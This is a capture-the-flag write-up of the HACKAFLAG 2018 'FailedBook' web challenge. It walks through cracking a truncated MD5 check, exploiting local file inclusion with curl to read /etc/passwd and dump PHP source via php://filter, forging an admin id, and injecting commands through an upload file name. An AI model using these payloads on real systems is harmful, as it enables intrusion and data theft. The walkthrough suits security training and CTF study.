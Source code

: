 ```yaml
---
title: HACKAFLAG 2018 - Etapa Salvador - FailedBook
layout: post
date: '2018-08-27 09:00:00'
description: Writeup of FailedBook challenge Salvador's stage - HACKAFLAG 2018
image: https://i.imgur.com/i4dxOaA.png
tags:
- ctf
- writeup
author: shrimpgo
---
```

### FailedBook (web500)

>Description:
>do it all you need to get shell
>
>Autor: @keerok
>
>URL: http://chall.hackaflag.com.br:8664

---
Below, the main page of chall:

![alt text](https://i.imgur.com/pYXMS1X.png)

Of course, we don't have login access, but it's possible to register a new login at link `Cadastro` highlighted at image above:

![alt text](https://i.imgur.com/ISveHen.png)

This page has 4 boxes: `username`, `senha` (password), `confirmar senha` (retype password) e `verificação` (verification code). Below has a information `MD5 = substr(md5(s),0,6) = 49eb0f`. This line code means: get first 6 characters from MD5 result from `s` string (senha) in PHP, implying that code referers to verification code. We have to find a word that matches with MD5's first 6 characters. Creating a wordlist with all printable characters with 3 letters:

```bash
$ crunch 3 3 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789\!\@\#\$\%\^\&\*\(\)\-_\+\=\~\`\[\]\{\}\|\\\:\;\"\'\<\>\,\.\?\/ -o wordlist.txt

```

Using this wordlist to find MD5 that matches with any line:

```python
import hashlib

wl = open('wordlist.txt', 'r').read().split('\n')
for i in wl:
    md5 = hashlib.md5(i).hexdigest()[:6]
    if md5 == '49eb0f':
        print('Found! Verification code is '+i)
```

```bash
$ python crack.py
Found! Verification code is {d?
```
Now we have all of items to register our credential:


```bash
username: shrimpgo
senha: testing
verificação: {d?
```

![alt text](https://i.imgur.com/hGm2X97.png)

Logging in:

![alt text](https://i.imgur.com/i4dxOaA.png)

Looking at source code, all of three images from Mark Zuckerberg origins from `link.php?path=null&file=4fe4277bd71aa03f702a08fc5711a48c/dolphin2.jpg&type=aW1hZ2UvanBlZw%3D%3D`. Maybe URI leads to LFI... Spliting URI, we have `path=null`, `file=path/to/image` and `type=aW1hZ2UvanBlZw%3D%3D`. Decoding base64 from var called `type`:

```bash
$ echo aW1hZ2UvanBlZw== | base64 -d
image/jpeg
```

We see clearly this referes to MIME type. Let's change this to `text/html`:

```bash
$ echo -n "text/plain"| base64
dGV4dC9wbGFpbg==
```

Now we're going to try some common LFI paths known (see [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal)) in `file` var:

```bash
$ curl "http://chall.hackaflag.com.br:8664/logado/link.php?path=null&file=index.php&type=dGV4dC9wbGFpbg=="
Hacker Detected ;)!
$ curl "http://chall.hackaflag.com.br:8664/logado/link.php?path=null&file=.htaccess&type=dGV4dC9wbGFpbg=="
Hacker Detected ;|!
```

I noted that expressions when I put some words like htaccess, htpassword, access, error etc., becomes `:|` and other errors becomes `:)`. Testing other paths, finally I certified that LFI exists:

```bash
$ curl "http://chall.hackaflag.com.br:8664/logado/link.php?path=null&file=/etc/passwd&type=dGV4dC9wbGFpbg=="
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```

Running all of these tests, I realized that `path` var doesn't do anything, it's only confuses the player. Trying to read index.php from LFI, I still can't read:

```bash
$ curl "http://chall.hackaflag.com.br:8664/logado/link.php?path=null&file=index.php&type=dGV4dC9wbGFpbg=="
Hacker Detected ;)!
```

Looking at mentioned site earlier, I tried PHP filter function:

```bash
$ curl -s "http://chall.hackaflag.com.br:8664/logado/link.php?path=null&file=php://filter/convert.base64-encode/resource=index.php&type=dGV4dC9wbGFpbg==" | base64 -d
```

```php
<?php
session_start();

if(!isset($_SESSION['username'])){
  header("Location: ../");
  exit(0);
}
if(!isset($_GET['id']) || empty($_GET['id'])){
  header("Location: ?id=".urlencode(base64_encode(convert_uuencode($_SESSION['username']))));
}

?>
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    	<link rel="stylesheet" type="text/css" href="../vendor/bootstrap/css/bootstrap.min.css">
    <title>Welcome</title>
    <a href="logout.php">Logout</a>
    <?php echo "<br><br><p style='color: white'>Welcome " . convert_uudecode(base64_decode(urldecode($_GET['id']))) . "</p><br><br>"; ?>
    <style rel='stylesheet' type='text/css'>
      body{
        background-image: url('background.jpg');
        background-repeat: no-repeat;
        background-position: 10% 10%;
}
      }
    </style>
  </head>
  <body>
    <main role='main'>
      <div class='container'>

<?php

if(convert_uudecode(base64_decode(urldecode($_GET['id']))) != "admin"){

 ?>
 <div class='row'>
   <?php
   $images = scandir('./4fe4277bd71aa03f702a08fc5711a48c');
   foreach ($images as $image) {
     if($image != '..' && $image != '.' && $image != ' ' && $image != 'index.php'){
       echo "<div class='col-md-4'><img src='link.php?path=null&file=4fe4277bd71aa03f702a08fc5711a48c/".$image."&type=".urlencode(base64_encode(mime_content_type("4fe4277bd71aa03f702a08fc5711a48c/".$image)))."' width='200px' height='200px' class='rounded mx-auto d-block'></div>";
     }
   }
    ?>
  </div>
<?php
}else{
?>
<form  action="upload.php?id=<?php echo $_GET['id']; ?>" method="post" enctype="multipart/form-data">
  <input class='form-control' type="file" name="image">
  <button type="submit" class='btn btn-primary' name="sub">Upload</button>
</form>
</div>
<?php
}
 ?>
</div>
</main>
</body>
</html>
```

Cool! This code shows an important part: if var `id`, encoded with base64 and uuencode, was `admin`, then this page will show an another content, an upload form. So, it's only encode `admin` and put the result in var `id`. I encoded uuencode and base64 [here](http://encode.urih.com/):

![alt text](https://i.imgur.com/aNR05k5.png)

![alt text](https://i.imgur.com/mUXog4Y.png)

I'll access this login with the new id:

![alt text](https://i.imgur.com/PAtreB1.png)

It works! Now, I'm going to upload something:

![alt text](https://i.imgur.com/EVI5PVe.png)

![alt text](https://i.imgur.com/pnbuR1n.png)

Ooops! It's not allowed. Trying now images (ie. jpg):

![alt text](https://i.imgur.com/CbR7A8D.png)

Ok, now it worked. But accessing this path, always gives me a 404 error, this path doesn't exist. Analysing deeply, I've noted that last line is the same output for the `file` command in bash. I'll intercept this POST request with burpsuite and I'll try RCE:

![alt text](https://i.imgur.com/J12WSC9.png)

I have to insert some command and, at same time, keeping the extension image at end of file. To do this, I'll put semicolon `;` to force running a command that I want:

![alt text](https://i.imgur.com/dzD369S.png)

WOW! You don't need to effort so much to get the flag:

![alt text](https://i.imgur.com/kEpT0Zf.png)

![alt text](https://i.imgur.com/fUjcLlt.png)

